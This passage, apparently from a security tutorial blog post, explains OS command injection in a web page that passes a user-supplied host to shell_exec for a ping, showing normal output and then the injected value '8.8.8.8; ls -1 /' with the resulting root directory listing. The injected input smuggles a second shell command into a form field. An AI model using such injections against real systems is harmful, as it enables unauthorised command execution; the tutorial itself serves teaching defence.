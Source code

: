 
If the users enters “8.8.8.8”, the page uses the shell_exec function to run the command `ping -c 3 8.8.8.8`, and the resulting HTML looks something like this:
{{< highlight html >}}
<html>
<head><title>Network connectivity check</title></head>
<body>
	<h1>Network connectivity check</h1>
	<form method="GET">
		<input name="host">
		<input type="submit">
	</form>
<h2>Results</h2>
<pre>PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=119 time=7.266 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=119 time=8.681 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=119 time=12.481 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 7.266/9.476/12.481/2.202 ms</pre>
</body>
</html>
{{< / highlight >}}

Super handy! However, what will happen if the user enters “`8.8.8.8; ls -1 /`” instead? The shell command run will be `ping -c 3 8.8.8.8; ls -1 /`, and the resulting web page will look something like:
{{< highlight html >}}
<html>
<head><title>Network connectivity check</title></head>
<body>
	<h1>Network connectivity check</h1>
	<form method="GET">
		<input name="host">
		<input type="submit">
	</form>
<h2>Results</h2>
<pre>PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=119 time=5.611 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=119 time=11.918 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=119 time=9.519 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 5.611/9.016/11.918/2.599 ms
Applications
Library
System
Users
Volumes
bin
cores
dev
etc
home
opt
private
sbin
tmp
usr
var</pre>
</body>
</html>
{{< / highlight >}}
